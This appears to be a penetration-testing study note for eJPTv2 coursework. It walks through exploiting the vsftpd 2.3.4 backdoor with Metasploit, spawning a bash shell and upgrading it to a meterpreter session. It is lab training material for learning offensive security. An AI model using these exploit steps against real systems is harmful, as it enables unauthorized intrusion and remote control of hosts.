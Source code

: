 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Linux Exploitation/Linux Exploitation]]"
---
```


# Exploiting a Vulnerable FTP Server

- FTP is used to facilitate file sharing between server and clients
- ``vsftpd`` is an FTP server for Linux system and is default FTP server for Ubuntu, CentOS and Fedora
- ``vsftpd`` v2.3.4 is vulnerable to a command execution vulnerability

## Demonstration

```bash
> db_nmap -sS -sV -O <ip>
> use exploit/unix/ftp/vsftpd_234_backdoor
> run
/bin/bash -i
$ whoami
$ ctrl+z
> use post/multi/manage/shell_to_meterpreter
> set LHOST eth1
> set SESSION <id>
> run
> sessions
```
